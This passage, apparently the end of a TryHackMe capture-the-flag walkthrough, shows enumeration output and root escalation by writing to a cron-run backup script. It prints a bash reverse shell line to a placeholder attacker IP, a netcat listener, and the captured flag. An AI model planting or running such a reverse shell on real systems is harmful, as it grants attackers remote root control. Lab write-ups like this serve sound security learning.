 The `sshd_config` lmao.


```
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                         
/usr/local/sbin/dev_backup.sh                                   
You can write script: /usr/local/bin/main_backup.sh
/usr/bin/gettext.sh
```

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                  
  Group gyles:                                                  
/home/gyles/.local                                              
  Group editors:
/var/stats/stats.txt                                            
  Group admin:
/usr/local/bin                                                  
/usr/local/bin/main_backup.sh
/opt/admin_stuff
```

The last two look the most interesting of the scan results.

```
gyles@TEAM:/usr/local/bin$ cat main_backup.sh 
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

Oh baby, this is too easy! Since we have the write access, let's have an interactive bash shell pop up here, and we can connect using `nc` from the other side. Hell yeah.

```
gyles@TEAM:/usr/local/bin$ cat main_backup.sh 
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
bash -i >& /dev/tcp/YOUR_ATTACKING_IP/1337 0>&1
```

```
❯ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.153.126] 37192
bash: cannot set terminal process group (25073): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# cat /root/root.txt
cat /root/root.txt
THM{YEEEEEEEEEEEEEE}
```

And we are done!
